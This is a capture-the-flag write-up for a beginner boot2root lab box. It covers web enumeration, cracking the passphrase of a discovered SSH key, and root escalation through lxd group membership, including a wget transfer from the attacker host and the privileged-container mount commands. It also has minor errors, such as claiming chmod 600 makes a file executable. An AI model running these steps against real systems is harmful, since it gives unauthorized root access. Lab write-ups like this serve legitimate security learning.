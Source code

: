 > An Easy Boot2Root box for beginners
#### User Flag
1. Stared off with basic enumeration
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2. Navigating to the webpage, I clicked around until I found the `/uploads` path
3. I also found the username `john` in the source code
4. This contained an image, dictionary list, and hacker manifesto
5. I ran steg checks on the image but came up with nothing so I moved on from that
6. Next I ran gobuster to look for other paths `gobuster dir -u 10.10.239.127 -w /usr/share/dirb/wordlists/common.txt`
7. That revealed `robots.txt` which also directs you tot eh `/uploads` path, as well as `/secret`
8. The secret path contained an rsa private key, which I assumed was to use for ssh
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
[ ETC ]
```
9. I downloaded the key and ran `chmod 600` to make it executable
10. To log in to ssh with the private key, we need the passphrase
11. I used `ssh2john secretKey` to convert the hash to a crackable format first
12. Then I ran `john gs-rsa --wordlist="dict.lst"` to crack the passphrase
```shell
└─$ ssh -i secretKey john@10.10.239.127 
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)
```
13. The user flag was in john's home directory
#### Priv Escalation
1. Since I can't run `sudo -l` with no password, I had to find a differnt method to gain root
2. First I checked `/etc/crontab` but that didn't contain anything
3. Running `id` on john, I found an interesting group called `lxd`
```shell
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```
4. lxd deals with linux containers similar to an application like docker
5. To exploit this, I downloaded `lxd-alpine-builder` on my attack machine
```shell
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git
└─$ cd lxd-alpine-builder 
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  build-alpine  LICENSE  README.md
```
6. Now we have to build it (I chose i686 architecture to be safe but it probably should work with x86, just build without -a)
```shell
└─$ sudo ./build-alpine -a i686
└─$ ls
alpine-v3.13-x86_64-20210218_0139.tar.gz  alpine-v3.19-i686-20240410_2128.tar.gz  build-alpine  LICENSE  README.md
```
7. To transfer the image, I launched a python server on my attack machine with `python3 -m http.server`
```shell
john@exploitable:~$ wget http://10.2.91.174:8000/alpine-v3.19-i686-20240410_2128.tar.gz
john@exploitable:~$ lxc image import alpine-v3.19-i686-20240410_2128.tar.gz --alias alp
Image imported with fingerprint: 9040fc16bbd675e014c9bfe0bcad601e2b8f54e93a1c109d912fc829030d1f5b
```
8. You can check the image specifications like architecture and size with `lxc image list`
9. Now we just create the instance as privileged, add access to the host device, and launch
```shell
john@exploitable:~$ lxc init alpine gameserv -c security.privileged=true
Creating gameserv
john@exploitable:~$ lxc config device add gameserv host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to gameserv
john@exploitable:~$ lxc start gameserv
john@exploitable:~$ lxc exec gameserv /bin/sh
~ # whoami
root
```
10. The root flag wasn't in `/root` (evil if you ask me) so I dug around manually for about 25 seconds before just using find
```shell
/ # find / -type f -name root.txt 2>/dev/null
/mnt/root/root/root.txt
/ # cd mnt/root/root/
/mnt/root/root # ls
root.txt
```
12. Done!
